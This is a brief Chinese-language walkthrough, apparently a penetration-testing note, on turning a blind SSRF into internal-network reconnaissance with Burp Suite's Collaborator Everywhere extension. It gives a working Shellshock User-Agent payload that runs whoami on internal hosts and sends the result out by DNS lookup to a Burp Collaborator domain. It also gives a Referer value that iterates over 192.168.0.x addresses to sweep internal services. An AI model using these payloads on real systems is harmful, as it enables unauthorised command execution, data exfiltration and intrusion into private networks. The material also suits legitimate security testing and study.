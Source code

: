 发现无法回显的ssrf。获取敏感信息证明危害：



首先安装：Collaborator Everywhere插件



然后将攻击的域名设置到范围中，这样Collaborator Everywhere才能对流量进行修改

![](images/EE835930C030423A9EE2E58BA6FCC2F8clipboard.png)



再次抓包：

![](images/6E5F90AFC5D24CCA9498BE56E00CF1DCclipboard.png)

Collaborator Everywhere已经添加了许多Shellshock paylod



对目标内网进行探测，并获取主机名：

更改user-agent为：

```javascript
 () { :; }; /usr/bin/nslookup $(whoami).t60giu97fmygladioymhxtjyxp3fr4.burpcollaborator.net
```

将域名更改为Burp Collaborator中的域名



更改Referer为：

```javascript
Referer: http://192.168.0.§1§:8080
```



对内网服务进行探测。点击开始攻击。几秒之后机会返回内网机器dns查询，并带上自己的主机名



![](images/49B62CFACBB64D8ABB7B0DAD185CCF5Eclipboard.png)



